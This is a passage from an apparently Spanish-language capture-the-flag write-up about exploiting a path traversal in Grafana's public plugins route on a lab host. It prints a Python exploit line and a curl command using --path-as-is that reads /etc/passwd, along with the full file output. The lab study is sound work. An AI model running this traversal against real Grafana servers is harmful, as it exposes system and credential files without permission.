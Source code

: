 Se dirije a un plugin de una lista que tiene definida para hacer un path traversal y cargar el archivo que desea leer

```null
try:
    url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
```
Pruebo a tramitar una petición con curl, pero me redirige a /login. Para evitarlo, añado el argumento --path-as-is para que no interprete el traversal y pueda llegar a incluir el archivo

```null
url 'http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../../../../../../../../../../etc/passwd' --path-as-is
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
